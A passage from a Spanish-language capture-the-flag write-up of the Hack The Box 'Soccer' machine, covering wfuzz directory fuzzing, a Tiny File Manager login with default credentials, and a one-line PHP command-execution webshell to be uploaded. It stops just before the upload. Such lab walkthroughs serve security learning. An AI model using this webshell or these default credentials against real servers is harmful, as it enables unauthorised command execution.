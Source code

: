 ```bash

000045227:   200        147 L    526 W      6917 Ch     "http://soccer.htb/"                                                                                                                       
000008021:   301        7 L      12 W       178 Ch      "tiny"   
```

**-c** es formato colorizado.  
**–hc=404** para esconder todas las repuestas 404 (No nos interesan, ya que son directorios que no existen). _hc_ viene de *hide code*.  
**-w** para especificar el diccionario que queremos emplear. Para *fuzzear* directorios yo casi siempre empleo el mismo, *directory-list-2.3-medium.txt*. Este diccionario se puede encontrar en el propio *Parrot OS* o en *Kali*. También se puede encontrar en el repositorio de [SecLists](https://github.com/danielmiessler/SecLists).  
**-u** para especificar la *url*. La palabra *FUZZ* es un término de *wfuzz* y es donde se va a sustituir cada línea del diccionario.  
**-t 200** para indicar la cantidad de **hilos** a usar (ejecuciones paralelas). A más hilos más rápido pero menos fiable.

El único directorio interesante que encontramos es el directorio **tiny** que nos devuelve un 301. 

#### Tiny File Manager

Del anterior volcado de *wfuzz*, encontramos el directorio ***tiny***: 

```bash
http://soccer.htb/tiny/
```

***Tiny File Manager*** es una aplicación web gratuita que permite gestionar y editar archivos y carpetas en tu servidor de forma sencilla a través de un navegador web. 

Al ingresar a la web lo único que vemos es un panel de *login*. Como no disponemos de credenciales, podemos ayudarnos de Google para buscar credenciales por defecto para esta aplicación. Encontramos las siguientes: ***admin:admin@123***.  Si las probamos, veremos que son **correctas**.

Como este aplicativo nos permite subir archivos y la web trabaja con *PHP*, podríamos intentar subir una ***webshell*** en *PHP* y que a través de un parámetro nos ejecute comandos. 

##  Consiguiendo shell como www-data 

En el archivo ***tinyfilemanager.php*** del directorio *tiny* podemos ver la configuración del servicio. Podemos encontrar las credenciales ***admin:admin@123*** y ***user:12345***.

### PHP file upload

En el directorio principal no tenemos permisos para subir archivos, pero en el directorio *tiny/uploads* sí que podremos. La ***webshell*** será:

```php
<?php
	system($_REQUEST['cmd'])
?>
```

La subimos:
